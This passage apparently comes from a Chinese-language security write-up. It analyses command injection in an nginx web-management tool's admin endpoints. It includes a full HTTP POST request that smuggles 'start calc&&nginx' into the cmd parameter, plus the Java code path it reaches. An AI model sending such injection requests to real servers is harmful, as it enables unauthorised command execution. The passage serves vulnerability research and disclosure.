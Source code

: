 ```
Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYBh3yXJyPhHdTCjb7pkmn4xLlbQL7a6MPAVYddEvp0Oaw6eBQDpJIgQ/640?wx_fmt=png "")  
  
‍  
  
com.cym.controller.adminPage.ConfController#runCmd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYgqYiaMIrxkvH9KlRkiaHuZtTq6HhH7xFKFl9wYv3V7aIZJAstZ643W5g/640?wx_fmt=png "")  
  
  
当到达函数 runCmd 时 cmd 参数可控，进行了一部分校验和过滤 只有cmd 中存在字符串 nginx 才可以继续执行，利用 && 来实现命令的拼接  
  
‍  
  
**「命令执行二」**  
  
‍  
```
POST /AdminPage/remote/cmdOver HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

remoteId=local&cmd=start calc%26%26nginx&interval=1
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYeLXfTG9D6JLbonYGDTdVXIEjCjZKVfXnyPE9cC005RcbELqczPMyog/640?wx_fmt=png "")  
  
  
com.cym.controller.adminPage.RemoteController#cmdOver  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYuCTcwBJtCBBxiaywG4LjbppR7XUpY5SknwaXY0caJHgmkibFGibT32Ucg/640?wx_fmt=png "")  
  
当满足传入的参数所对应的值时，最终会调用   
com.cym.controller.adminPage.ConfController#runCmd  
  
  
com.cym.controller.adminPage.ConfController#runCmd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYgqYiaMIrxkvH9KlRkiaHuZtTq6HhH7xFKFl9wYv3V7aIZJAstZ643W5g/640?wx_fmt=png "")  
  